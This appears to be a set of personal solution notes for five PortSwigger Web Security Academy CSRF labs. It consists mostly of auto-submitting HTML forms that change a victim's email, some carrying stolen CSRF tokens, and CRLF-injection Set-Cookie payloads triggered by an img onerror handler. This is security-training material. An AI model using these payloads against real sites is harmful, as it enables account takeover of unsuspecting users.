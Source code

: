 # [1. Lab: CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)

```javascript
<form action="https://0a99000404688a6081f44d2f002800b2.web-security-academy.net/my-account/change-email" method="POST">
<input type="hidden" name="email" value="attacker2@evil-user.net" /></form>
<script> document.forms[0].submit(); </script>
```

# [2. Lab: CSRF where token validation depends on request method](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-request-method)

This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies **defenses to certain types of requests**.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

```js
<form action="https://0a99000404688a6081f44d2f002800b2.web-security-academy.net/my-account/change-email?email=2332%4022&csrf=zYz8BGtIsz8YghTsu3R1RqL2Nee09Rnc" method="GET">
<input type="hidden" name="email" value="attacker2@evil-user.net" /></form>
<script> document.forms[0].submit(); </script>
```

# [3. Lab: CSRF where token validation depends on token being present](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-token-being-present)

```javascript
<form action="https://0a78007e049ffd26822483c6005e0023.web-security-academy.net/my-account/change-email" method="POST">
<input type="hidden" name="email" value="attacker3@evil-user.net" />
<script> document.forms[0].submit(); </script>
```

# [4. Lab: CSRF where token is not tied to user session](https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session)

add:

```js
<input type='hidden' name='csrf' value='clear-token-from-inspect' />
```

```javascript
<form action="https://0a7f007603c24cd98239e7c200e70039.web-security-academy.net/my-account/change-email" method="POST">
<input type="hidden" name="email" value="attacker6@evil-user.net" />
<input type="hidden" name="csrf" value="4lRNER6rNT4NeZdXhKIb31g2Zj1eve2T" />
</form>
<script> document.forms[0].submit(); </script>
```

# [5. Lab: CSRF where token is duplicated in cookie](https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie)

payload 1

```javascript
<form action="https://0a7000c7040897b983820a4b00c50025.web-security-academy.net/my-account/change-email" method="POST">
<input type="hidden" name="email" value="attacker6@evil-user.net" />
<input type="hidden" name="csrf" value="9WD6SbTbz4JlW0XYUmERl1mt6vpaaqhq" />
</form>
<img>
<script> document.forms[0].submit(); </script>
```

payload 2:

```bash
/?search=%3Ctest%3E %0d%0a
Set-Cookie: csrf=9WD6SbTbz4JlW0XYUmERl1mt6vpaaqhq;
```

payload 3:

```bash
/?search=%3Ctest%3E%0d%0aSet-Cookie:+csrf=9WD6SbTbz4JlW0XYUmERl1mt6vpaaqhq;
```

full payload 4:

```javascript
<form action="https://0a7000c7040897b983820a4b00c50025.web-security-academy.net/my-account/change-email" method="POST">
<input type="hidden" name="email" value="attacker6@evil-user.net" />
<input type="hidden" name="csrf" value="9WD6SbTbz4JlW0XYUmERl1mt6vpaaqhq" />
</form>
<img src="https://0a7000c7040897b983820a4b00c50025.web-security-academy.net/?search=%3Ctest%3E%0d%0aSet-Cookie:+csrf=9WD6SbTbz4JlW0XYUmERl1mt6vpaaqhq;" onerror="document.forms[0].submit()">
```

<form action="https://0ad5002a041c201b81843f160055009f.web-security-academy.net/my-account/change-email" method="POST">
<input type="hidden" name="email" value="attacker@gmail.com" />
<input type="hidden" name="csrf" value="WV1IaxbetxuFZ8Y1AoitsQJkWlu1H1GF" />
</form>
<img src="https://0ad5002a041c201b81843f160055009f.web-security-academy.net/?search=hhhhh%0d%0aSet-Cookie:+csrf=WV1IaxbetxuFZ8Y1AoitsQJkWlu1H1GF%26SameSite=None" onerror="document.forms[0].submit()">
